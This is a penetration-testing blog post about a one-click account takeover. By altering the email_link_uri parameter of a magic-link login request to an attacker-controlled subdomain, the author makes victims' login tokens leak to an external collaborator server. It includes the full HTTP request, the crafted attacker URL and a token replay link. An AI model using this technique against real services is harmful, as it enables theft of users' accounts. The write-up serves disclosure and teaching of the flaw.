 ```yaml
---
title: Magic Links as Gateways to Account Takeovers
author: sl4x0
image:
  path: /assets/images/pentesting/magic-links-flow.gif
date: 2024-03-04 23:00:00 +0800
categories: Pentesting
description: "How a Magic Link can be used to take over an account with a mistake on a single parameter"
tags: [ATO, Magic Links]
toc: true
---
```


﷽

Hello, today I will discuss a `1-Click ATO` bug that I encountered during a pen-test engagement at
`BugSwagger LLC`. Let’s say the target name is: `host.io`.

## Starting with Sign-up

During the sign-up process, there are two methods of registration: signing up with a **non-existent** email address and signing up with an **existing** email address.

![Sign-up](/assets/images/pentesting/1.webp)

The first kind of sign-up is the normal one. You simply input your email address and click submit. A confirmation email will be sent to you to ensure that you are the owner of the email address. After confirming your email address, you will proceed to insert your information and complete the account creation process (name, company name, etc.).

### Signing up with an existing Email

The second option only works when you check the circle next to the sentence “I will be joining an existing `Host` account.” This option entails two scenarios:

**First**: If you have already registered with an account, you will be sent an email containing a magic link that allows you to log in directly without needing a password.

**Second**: If you have not registered with the email before, you will simply confirm your email and complete the sign-up process as mentioned above.

However, our focus is primarily on the **first scenario**!

## The Misused Parameter

```http
POST /account/v2/auth/magiclink/email/ HTTP/2
Host: sub.host.io
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:123.0) Gecko/20100101 Firefox/123.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://app.host.io/
Content-Type: application/json
Content-Length: 192
Origin: https://app.host.io
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-site
Te: trailers

{"email":"myFirend@email.com","referral_code":null,"email_link_uri":"https://host.io","require_ad_spend":false,"account_type":"Standard"}
```

Upon sending this request I observed two things: first the `email_link_uri` parameter and second the response itself.

![Response](/assets/images/pentesting/2.webp)

The response received after investigation is not the token located on the magic link sent to the victim, which enables them to log in. The magic link that enables the victim to log in is structured as follows:

```http
https://host.io/?login_token=[different_token]&account_type=Standard&require_ad_spend=False
```

This link contains a `unique login token` different from the one located in the response. The Trick here is how we can leak the token that was sent to the victim.

Remember the `email_link_uri` parameter? I tried manipulating it so I could hold the Collaborator link instead of the website URL itself. However, I encountered a weird response.

![Response](/assets/images/pentesting/3.webp)

That triggers the `CORS Misconfiguration Bypasses` inside my head 😄.

I tried to add the link below:

```http
https://host.io.muk4beh062sbtx1v86cglfhd74dx1npc.oastify.com
```

And hell yeah! It succeeded!

![Response](/assets/images/pentesting/4.webp)

And the link that was sent to the victim looks like this one:

![Response](/assets/images/pentesting/5.webp)

Now, When the victim clicks on this link he will just go my collaboration server and the victim login token will be sent to my server as below:

![Response](/assets/images/pentesting/6.webp)

Now you can just remove the collaborator server and leave the URL as below to takeover the victim account:

`https://host.io/?login_token=5c0cdce5658eae411247e6cfb015c7906088ff2b&account_type=Standard&require_ad_spend=False`

In summary, always inspect every parameter in important requests like reset password, email change, set password, etc. It may uncover vulnerabilities that you couldn’t imagine existed. Thank you for reading, and you can follow me on Twitter: [@sl4x0](https://twitter.com/sl4x0).

